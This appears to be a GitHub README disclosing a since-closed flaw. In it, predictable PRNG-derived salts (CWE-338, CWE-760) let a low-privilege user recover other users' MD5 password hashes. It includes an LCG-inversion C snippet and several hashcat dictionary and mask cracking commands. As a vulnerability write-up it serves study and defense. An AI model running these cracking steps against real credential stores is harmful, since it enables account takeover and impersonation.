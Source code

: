 # Salt-Hash Approximation Recovery-attack with Known plaintext using data containers (Hashcat)
> :warning: **Disclaimer**: PLEASE BE AWARE THAT THE VULNERABILITY HAS BEEN IDENTIFIED AND SUCCESSFULLY CLOSED.
NO KNOWN ATTACKS HAVE BEEN EXECUTED USING THIS VULNERABILITY AND NO DATA WAS OBTAINABLE BY THIRD PARTIES.
THE INFORMATION PRESENTED IS FOR EDUCATIONAL PURPOSES ONLY AND DOES NOT REPRESENT AN ONGOING RISK.

This is a demonstrative recovery attack with which any low privilege user of the system
can potentially steal user credentials and perform actions using a different identity,
this works by exploiting the password reset feature shortly after a finished update cycle
in combination with data containers for the attacker to map possible prng sequences to salts for hash predictions.

## Summary
  1. Remove nearby hash salts by iteration of lcg parameters with known points in sequence
  2. Fire and forget guessed unsalted hashes based on lcg sequence via cloud compute services
  3. Copyright

### CWE-338 Use of Cryptographically Weak Pseudo-Random Number Generator (PRNG)
Uses a Pseudo-Random Number Generator (PRNG) in a security context, but the PRNG's algorithm is not cryptographically strong.
![](https://chart.apis.google.com/chart?cht=tx&chl=f(x_{n+1})=(ax_n+c)\gg%20d%20\pmod%20m%20\Rightarrow%20f^{-1}(y_n)=a^{-1}(y_n-c)\gg%20d%20\pmod%20m)
![](https://chart.apis.google.com/chart?cht=tx&chl=y_n:=\left%20\lfloor%20x_n/2^{31}%20\right%20\rfloor\pmod%20m)

```c
//for d=1
rlcg<a, c, m, /*second modulo*/0> rlcg({p1, p2});
if(!rlcg.solution().empty())
  std::cout << rlcg.solution() << std::endl;
```

### CWE-760 Use of a One-Way Hash with a Predictable Salt
One-way cryptographic hash against an input that should not be reversible, such as a password, but uses a predictable salt as part of the input.
![](https://chart.apis.google.com/chart?cht=tx&chl=h:=md5(\$pass)%20+%20\$salt.prng%20\Rightarrow%20md5%20=%20h-\$salt.prng)

```
hashcat.exe -m 0 ./md5_salt_guess.hash -a 0 -d 1 ./rockyou-extended.dict & hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "!$??" ./rockyou-extended.dict ?1 &^
hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "@#%&*" ./rockyou-extended.dict ?1 & hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "12347890" -2 "!$??" ./rockyou-extended.dict ?1?2 &^
hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "12347890" ./rockyou-extended.dict ?1 & more hashcat.potfile
```

### Copyright and license
Code and documentation copyright 2021 Alexander Töpfer. Code released under the MIT License
